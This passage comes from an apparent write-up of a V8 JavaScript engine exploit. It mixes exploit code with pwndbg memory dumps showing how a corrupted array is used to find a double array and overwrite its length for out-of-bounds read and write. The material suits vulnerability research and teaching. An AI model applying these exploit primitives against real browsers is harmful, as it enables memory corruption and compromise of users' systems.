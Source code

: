 ### Note: The memory has 2 because SMIs have LSB as 0. So, to make sure LSB is 0, SMIs are doubled before storing in memory and halved when accessed from memory.

```js
let dblAddr = indexToAddr(dblIndex);
dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x1000);
console.log("oobDblAddr: " + indexToAddr(dblIndex).toString(16));
var oobDblIndex = dblIndex;
corruptedArr[dblIndex + 3] = 0x41;
```

We get the offset inside `corruptedArr` to the first found pattern and then start our search from there again. This time we find the original address of pattern that we intended to find. Again we patch the pattern to stop finding the same pattern again and again.

```bash
pwndbg> x/50wx 0x288100042191-1
0x288100042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x2881000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
0x2881000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x2881000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x2881000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
0x2881000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x2881000421f0:	0x00000000	(0x00000082)	0x00000000	0x40508000
0x288100042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x288100042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x288100042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x288100042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x288100042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
0x288100042250:	0x00000901	0x00000006
```

Second pattern patched with 0x41 (0x82 in memory).

```js
if (dblIndex == null || oobDblArr[0] == 0x41) {
    console.log("cannot find dblIndex");
```

Then we check if we found the pattern or not. `oobDblArr[0]` is at address 0x2881000421f0 and it is not 0x41.

```js
else {
    corruptedArr[dblIndex - 3] = 0x100;
    console.log("oobDblArr new length: " + oobDblArr.length);
```

`corruptedArr[dblIndex]` points to `elements` member of `oobDblArr`. If we go back 3 double words (Addresses are 32-bit in v8) we get length member of array. We change that to 256 to get OOB read and write. 

```bash
pwndbg> x/50wx 0x05d300042191-1
0x5d300042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x5d3000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
0x5d3000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x5d3000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x5d3000421d0:	0x0018ece5	0x00000219	0x000421e9	(0x00000200) from 0xa to 0x200 
0x5d3000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x5d3000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
0x5d300042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x5d300042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
0x5d300042220:	0x00000000	0x40504000	0x00000000	0x40508000
0x5d300042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
0x5d300042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
0x5d300042250:	0x00000901	0x00000006
```